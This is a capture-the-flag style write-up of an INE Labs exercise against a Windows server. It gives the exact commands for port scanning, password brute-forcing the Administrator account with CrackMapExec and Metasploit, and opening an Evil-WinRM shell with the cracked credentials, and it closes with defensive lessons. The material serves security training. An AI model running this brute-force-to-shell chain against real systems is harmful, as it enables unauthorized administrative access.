


# Windows SMB PSexec — INE Labs

| Field      | Value              |
|------------|--------------------|
| Platform   | INE Labs           |
| OS         | Windows Server     |
| Difficulty | Easy               |
| Tags       | SMB, WinRM, CrackMapExec, netexec, brute force, Evil-WinRM |

---

## 1. Reconnaissance

```bash
nmap -p445 --script smb-protocols demo.ine.local
```



Target identified as a **Windows Server** with SMB (445), RPC (135), and RDP (3389) open.

---

## 2. Enumeration — Null Sessions Disabled

Attempted standard null/anonymous enumeration:

```bash
smbclient -L //demo.ine.local/ -N
rpcclient -U "" demo.ine.local
enum4linux -a demo.ine.local
```

All failed — the server had **null sessions disabled**, blocking unauthenticated enumeration. This is correct security configuration for modern Windows servers.

---

## 3. WinRM Discovery

Full port scan revealed port **5985 (WinRM)** open — the Windows Remote Management service, which allows PowerShell remoting and interactive shells via Evil-WinRM.

```bash
nmap -p- demo.ine.local
```



WinRM on port 5985 means that if we get valid credentials with remote management rights, we get a full interactive shell.

---

## 4. Brute Force — Administrator via CrackMapExec

No SMB exploits matched the server version (SMBGhost was not applicable). Fell back to a dictionary attack against the `Administrator` account:

```bash
crackmapexec winrm <IP> -u 'Administrator' -p '/usr/share/wordlists/metasploit/unix_passwords.txt'
```

Or via Metasploit:

```bash
use auxiliary/scanner/smb/smb_login
set USER_FILE /usr/share/metasploit-framework/data/wordlists/common_users.txt
set PASS_FILE /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt
set RHOSTS demo.ine.local
set VERBOSE false
exploit
```

Result: `Administrator:qwertyuiop` — marked **(Pwn3d!)** by CrackMapExec, confirming administrative rights.

---

## 5. Shell Access via Evil-WinRM

```bash
evil-winrm -i demo.ine.local -u Administrator -p qwertyuiop
```

Full interactive PowerShell session as Administrator.

---

## Key Takeaways

**Disabled null sessions don't stop brute force attacks.** Null session blocking prevents anonymous enumeration, but authenticated brute force still works. The only mitigation is account lockout policy and strong passwords.

**CrackMapExec's `(Pwn3d!)` marker confirms admin-level access.** When SMB authentication succeeds with admin privileges, CME marks it explicitly. This means PSexec, WMI, and Evil-WinRM will all accept these credentials.

**WinRM is more reliable than PSexec in modern environments.** PSexec requires write access to ADMIN$ and service installation rights, which may be audited or blocked. WinRM is a built-in Windows service that, when enabled, gives a clean interactive shell.

**`qwertyuiop` is in every password dictionary.** Keyboard-walk passwords (`qwerty`, `123456`, `qwertyuiop`) are trivially cracked. Administrator accounts with dictionary passwords are immediate critical findings in any real engagement.
